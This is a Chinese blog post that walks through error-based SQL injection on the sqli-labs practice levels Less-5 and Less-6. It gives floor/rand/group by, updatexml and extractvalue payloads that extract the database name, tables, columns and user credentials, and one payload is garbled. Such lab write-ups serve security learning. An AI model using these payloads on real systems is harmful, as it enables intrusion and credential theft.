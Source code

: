 ```yaml
---
layout: post
title: SQL双查询注入(less5,less6)
date: 2021-06-04 13:58 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 SQL注入基本姿势](#0x0-sql注入基本姿势)
- [0x1 LESS-5](#0x1-less-5)
- [0x2 LESS-6](#0x2-less-6)

<!-- /TOC -->
## 0x0 SQL注入基本姿势

**floor报错注入**  

``` c
Rand() //随机函数，用于产生 0 至 1 之间的随机数
Floor() //取整函数，向下舍入为指定小数位数 如：floor(1.45,0)= 1;floor(1.55,0) = 1
Count() //汇总函数
Group by clause //分组语句
concat() //连接两个字符串
```
在一个聚合函数，比如count函数后面如果使用 **Group by** 分组语句就会把查询的一部分以错误的形式显示出来  

``` c
SELECT floor(rand()*2) //查询结果不是0就是1
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2)) //查询出数据库的名称并在后面拼接0或者1
```
**如果我们把这条语句后面加上 from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的**  

```c
select concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//把concat((select database()), floor(rand()2)) 这个结果取了一个别名 a
//然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了
```
![](/images/20210602-1.png)
```c
select count(*), concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//加入count引起报错，或者正常输出
```
![](/images/20210602-2.png)
![](/images/20210602-3.png)
```c
select count(*), concat('0x7C',(select user()),'0x7C', floor(rand()*2)) as a from information_schema.tables group by a;
//加入 '~'让结果更加清晰
```

**updatexml()函数**  
```c
select * from message where id = 1 and updatexml (1, (concat (0x7C, (select @@version))) ,1);
```
**extractvalue()函数**  
```c
select * from message where id= 1 and extractvalue (1, concat (0x7C, (select user()));
```

## 0x1 LESS-5
- 存在注入点  


![](/images/20210602-4.png)
- 爆出数据库 

`?id=1' union select updatexml (1, (concat (0x7e, (select database()),0x7e)) ,1) --+`  
![](/images/20210602-5.png)
- 爆出表名  

`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-6.png)
- 爆出字段  

`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where   table_name='users' and table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-7.png)
- 爆出用户名密码  

`?id=1' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1) --+`  
![](/images/20210602-8.png)
**只爆出了部分结果**  
`?id=1' and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from user),1)),0x5e),1)--+`  
**更改user后面的参数来控制**  
![](/images/20210602-9.png)

## 0x2 LESS-6
- 存在注入点  

![](/images/20210602-10.png)
- 使用floor报错注入,爆出库名  

```c
?id=1(")" union SELECT 1,count(*),concat(0x7e,(select ''''''''),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+
 //union stelect 1,count(*), *** as a 联合查询1,***并他们命名为A
 //from information_schema.table 从这个表
 //group by a 分成几组，把结果分组输出
// 利用 count + floor +group by会报错的原理
```
`?id=1" union SELECT 1,count(*),concat(0x7e,(select database()),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-11.png)
- 爆出表名  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema='security'),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-12.png)
>这里多了一个键，键1已经存在虚拟表中，由于键只能唯一，所以此时就会报错。所以在使用floor()、rand(0)、count()、group by时，数据表中至少要有3条记录才会报错，所以我们在第二条select语句末尾加上limit x,1即可让它报错继续注入。  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-13.png)
- 查到用户表  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-14.png)
- 爆列名  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 1,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-15.png)
>修改limit 1,1;limit2,1可以爆出存在username和password字段  

- 爆字段  

`?id=1" union SELECT 1,count(*),concat(0x7e,(select concat(0x5e,username,0x5e,password,0x5e) from users limit 0,1),floor(rand()*2),0x7e)as a from information_schema.tables group by a --+`  
![](/images/20210602-16.png)